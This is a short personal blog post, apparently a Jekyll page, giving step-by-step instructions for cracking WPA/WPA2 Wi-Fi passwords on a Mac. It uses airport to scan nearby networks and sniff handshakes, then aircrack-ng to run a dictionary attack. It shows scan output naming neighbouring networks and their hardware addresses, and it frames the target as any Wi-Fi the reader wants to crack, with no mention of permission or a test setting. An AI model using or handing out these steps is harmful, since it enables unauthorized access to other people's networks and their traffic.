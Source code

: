 ```yaml
---
layout: article
blogName: SunJK' Blog 
category: wifi
category_en: wifi
title: aircrack on mac
tags: icmp 
---
```

###  aircrack on mac with WPA/WPA2
* `airmon-ng` `airodump-ng` `aireplay-ng` doesn't work for mac<br>
* use `airport` on mac sniff authentication handshake<br>
* type `airport -s` on terminal, find channel of wifi which you wana crack
<pre>
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                 TP-LINK_HyFi_16 08:57:00:b8:42:16 -83  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   ChinaNet-PjnC b4:41:7a:b8:0c:e9 -58  11      Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                       Cici_chen d0:c7:c0:1c:ac:60 -51  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                          zdcnet 6c:e8:73:3a:2f:cc -88  6,+1    Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   TP-LINK_99999 20:dc:e6:3c:ff:6c -81  6       N  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       littlepig 00:23:cd:15:fd:2c -89  2,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        Tenda_XY c8:3a:35:4e:16:01 -64  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                   ChinaNet-6ecG b4:41:7a:b6:c1:5c -68  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 

</pre>

* type `sudo airport en0 sniff 1` to sniff authentication handshake.<br>
* download wifi crack dictionary , type `aircrack-ng -w wifi.txt authen.cap | grep 'handshake'`, find line which handshake count more than 0
<pre>
sunjk:wifi SunJK$ aircrack-ng -w wifi.txt a2.cap | grep 'handshake'
   1  80:71:7A:5A:C5:4C  HG532e-101                WPA (0 handshake)
   2  08:57:00:B8:73:92  TP-LINK_HyFi_16           WPA (1 handshake)
   5  D0:C7:C0:1C:AC:60  Cici_chen                 WPA (0 handshake)
   8  64:09:80:19:44:7F  DDD                       WPA (0 handshake)
</pre>
* type `aircrack-ng -w dic.txt authen.cap` , choose `Index number of target network ` that you found. 
* waiting for result.if you are lucky , you will get wifi password soon.

### External links:
_<http://www.aircrack-ng.org/doku.php?id=wpa_capture>_<br>
_<http://www.aircrack-ng.org/doku.php?id=cracking_wpa>_<br>
_<http://www.hsc.fr/ressources/articles/hakin9_wifi/hakin9_wifi_EN.pdf>_<br>

